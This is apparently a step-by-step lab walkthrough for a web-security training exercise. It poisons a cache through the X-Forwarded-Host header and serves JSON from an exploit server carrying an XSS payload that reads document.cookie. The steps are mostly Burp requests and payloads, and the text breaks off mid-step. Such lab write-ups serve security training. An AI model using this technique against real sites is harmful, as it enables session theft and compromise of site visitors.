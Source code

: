 ```bash
Go to: Repeater
Add:

X-Forwarded-Host: check.com

Response:

<script>
	data = {
		"host":"check.com",
		"path":"/",
	}
</script>

Go to: Target -> Site map -> current_website.com -> resources -> geolocate.js

function initGeoLocate(jsonUrl)
{
    fetch(jsonUrl)
        .then(r => r.json())
        .then(j => {
            let geoLocateContent = document.getElementById('shipping-info');

            let img = document.createElement("img");
            img.setAttribute("src", "/resources/images/localShipping.svg");
            geoLocateContent.appendChild(img)

            let div = document.createElement("div");
            div.innerHTML = 'Free shipping to ' + j.country;
            geoLocateContent.appendChild(div)
        });
}

Go to: "Go to exploit server"
File:

/resources/json/geolocate.json

Head:

HTTP/1.1 200 OK
Content-Type: application/javascript; charset=utf-8
Access-Control-Allow-Origin: *

Body:

{
"country": "<img src=1 onerror=alert(document.cookie) />"
}

Store
Go to: Repeater
Change:

X-Forwarded-Host: check.com

To

X-Forwarded-Host: exploit-0a02004103861dd5c0beb48001d500f3.web-security-academy.net

Send
Ensure the response includes:

```